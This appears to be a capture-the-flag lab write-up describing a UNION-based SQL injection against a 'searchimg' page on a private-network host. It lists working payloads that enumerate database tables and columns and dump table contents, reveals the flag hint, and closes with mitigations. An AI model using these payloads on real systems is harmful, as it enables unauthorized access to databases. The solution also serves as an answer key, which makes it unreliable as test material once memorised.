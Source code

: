 # The issue
Forms are not protected against SQL injection enabling us to get access to precious information.

## How to reproduce it on the website?
On page http://10.13.0.53/?page=searchimg

Enter `1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables`
in order to get all the tables.

Enter `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns` in order to get the columns of tables.

Enter `1 AND 1=2 UNION SELECT title, comment  FROM list_images` to get information of the user tables.

You can see this text and just need to apply it:
```
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

## Why is it a problem?
You can access to the content of the different tables especially to the users.


## How to avoid it?
Use a good framework that prepare accordingly the sql requests.
Be sure to escape correctly special characters. Check for the data given versus the data type expected in the database. 

